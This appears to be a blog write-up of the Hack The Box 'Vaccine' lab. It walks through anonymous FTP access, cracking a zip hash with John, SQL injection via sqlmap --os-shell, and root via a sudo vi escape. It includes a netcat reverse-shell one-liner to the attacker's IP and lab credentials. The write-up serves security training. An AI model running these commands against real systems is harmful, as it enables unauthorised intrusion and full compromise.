 ```yaml
---
layout: post
title: 'HTB | Vaccine'
permalink: /htb/starting-point/vaccine/
---
```


# Enumeration
First we scan the IP:
{% highlight plain %}
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-30 13:27 EDT
Nmap scan report for 10.129.13.233
Host is up (0.056s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.16 seconds
{% endhighlight %}

---

# Explotation

### FTP
We would try to login with a default user in the ftp:
{% highlight bash %}
> ftp anonymous@10.129.13.233
Password: 
230 Login successful.
{% endhighlight %}

We can try to navigate throw the FTP:
{% highlight bash %}
ftp> ls
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
ftp> get backup.zip
ftp> cd ..
{% endhighlight %}
We can download the zip, but we can not navigate to other directory.

If we try to unzip but it ask for a password. We need to crack the password:
{% highlight bash %}
> sudo zip2john backup.zip > ziphash  
> sudo john ziphash --fork=10 -w=/usr/share/wordlists/rockyou.txt
    741852963
{% endhighlight %}

There we have logins to the webpage, but the password is encrypted.
We can see that is a md5 with **hash-identifier**. If we search it we can get the plain text: **qwerty789**.
Now we can login in the page.

### SQL
We can see that we have a table, if we search on it the url change:
{% highlight plain %}
http://10.129.13.233/dashboard.php?search=
{% endhighlight %}

It seems to have a <a href="{{ "/notes/databases/sql/" | prepend: site.baseurl }}">SQLi</a>, so we can try to use **sqlpmap**:
{% highlight bash %}
sqlmap -r req
{% endhighlight %}
Where **req**:
{% highlight plain %}
GET /dashboard.php?search=a HTTP/1.1
Host: 10.129.13.233
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.13.233/dashboard.php
Connection: close
Cookie: PHPSESSID=05ndh3sf35jpa3l93oj9afdlgf
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
{% endhighlight %}

We check that it has a SQLi, then we can start a reverse shell:
{% highlight bash %}
sqlmap -r req --os-shell
{% endhighlight %}
We should start a reverse shell in the **os-shell>** to more accessibility. We will open a port in our host and send this command on **Vaccine**:
{% highlight bash %}
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.167 9000 >/tmp/f
{% endhighlight %}

---

# Privilage Escalation
We can go to **/var/www/html** and search for credentials with:
{% highlight bash %}
> cat * | grep pass
{% endhighlight %}
We can see the credentials: **postgres:P@s5w0rd!**. Now we can try:
{% highlight bash %}
> script /dev/null -c bash # To get a better shell
> sudo -l
    User postgres may run the following commands on vaccine:
        (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
{% endhighlight %}

Now, we will execute vi.
{% highlight bash %}
> sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
{% endhighlight %}
Afterwards, we execute:
{% highlight bash %}
:!/bin/bash
{% endhighlight %}
And now we are root.